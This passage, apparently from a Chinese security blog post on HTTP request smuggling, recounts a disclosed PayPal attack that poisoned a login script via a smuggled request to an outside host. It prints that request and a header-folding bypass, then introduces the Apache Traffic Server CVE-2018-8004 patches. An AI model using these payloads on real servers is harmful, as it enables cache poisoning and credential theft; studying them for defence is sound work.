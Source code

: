 首先肯定得来聊聊今年分享 HTTP Smuggling 的作者在 Black Hat 上分享的 Paypal 漏洞实例了

作者首先通过 HTTP Smuggling 的方式将一个用于 Paypal 登录的 js 文件进行了投毒：

```plain
POST /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1 
Host: c.paypal.com
Content-Length: 61 
Transfer-Encoding: chunked

0

GET /webstatic HTTP/1.1
Host: skeletonscribe.net?
X: XGET /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1 
Host: c.paypal.com
Connection: close

HTTP/1.1 302 Found
Location: http://skeletonscribe.net?, c.paypal.com/webstatic/
```

但是 Paypal 登录页面有 CSP 规则 `script-src` 限制了这个跳转。

[![](assets/1698897445-e5ba643339aefc08df0887441c69d37f.svg)](https://portswigger.net/cms/images/e1/5c/43ccf8d84ffc-article-paypal-01.svg)

后来作者发现该页面还有一个动态生成的 iframe 引入了 c.paypal.com ，且该子页面没有 CSP 而且还引入了作者投毒的 js 文件！虽然这样可以控制 iframe 页面，但是由于同源策略，是读不到父页面的数据的。

[![](assets/1698897445-395c0dc15e74e420f8a2c2c4406a3311.svg)](https://portswigger.net/cms/images/1e/65/8e618cf695b8-article-paypal-02.svg)

再接着作者的同事在 paypal.com/us/gifts 发现了一个不使用 CSP 的页面，并且也导入了作者投毒的 js 文件，这样作者终于通过 js 将 c.paypal.com 的 iframe 重定向到了 paypal.com/us/gifts ，这样就同源了，也就可以读取父页面的数据了。

[![](assets/1698897445-f802bb5e6d4e8a6454326ecaf843d28d.svg)](https://portswigger.net/cms/images/13/0e/7fcaae230c37-article-paypal-03.svg)

Paypal 第一次修复是将 Akamai 配置修改成拒绝含有 Transfer-Encoding: chunked 的请求，但是后来又被作者构造了一个换行的 header 绕过了：

```plain
Transfer-Encoding:
 chunked
```

## ATS

> ​ Apache Traffic Server（ATS）是美国阿帕奇（Apache）软件基金会的一款高效、可扩展的HTTP代理和缓存服务器。
> 
> Apache ATS 6.0.0版本至6.2.2版本和7.0.0版本至7.1.3版本中存在安全漏洞。攻击者可利用该漏洞实施HTTP请求走私攻击或造成缓存中毒。
> 
> 在美国国家信息安全漏洞库中，我们可以找到关于该漏洞的四个补丁，接下来我们详细看一下。
> 
> CVE-2018-8004 补丁列表
> 
> -   [https://github.com/apache/trafficserver/pull/3192](https://github.com/apache/trafficserver/pull/3192)
> -   [https://github.com/apache/trafficserver/pull/3201](https://github.com/apache/trafficserver/pull/3201)
> -   [https://github.com/apache/trafficserver/pull/3231](https://github.com/apache/trafficserver/pull/3231)
> -   [https://github.com/apache/trafficserver/pull/3251](https://github.com/apache/trafficserver/pull/3251)
> 
> 注：虽然漏洞通告中描述该漏洞影响范围到7.1.3版本，但从github上补丁归档的版本中看，在7.1.3版本中已经修复了大部分的漏洞。
